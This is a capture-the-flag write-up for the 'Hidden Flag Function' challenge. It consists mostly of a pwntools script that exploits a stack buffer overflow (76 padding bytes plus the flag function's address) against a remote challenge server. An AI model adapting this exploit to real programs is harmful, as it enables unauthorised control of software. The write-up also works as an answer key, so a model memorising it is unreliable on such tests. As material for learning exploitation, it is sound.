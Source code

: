 # HIDDEN FLAG FUNCTION [EASY]

## Description

> Can you control this applications flow to gain access to the hidden flag function?

## Short Solution Description / Tags

Classic ret2win

## Solution

solver.py

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./hidden_flag_function", checksec=False)

win = elf.sym["flag"]


def conn() -> pwnlib.tubes:
    io = remote("5e72af5a081acd1b.247ctf.com", 50383)

    return io


def main():
    io = conn()

    payload = b"A" * 76 + p32(win)

    io.sendlineafter(b"What do you have to say?", payload)
    io.interactive("")


if __name__ == "__main__":
    main()
```
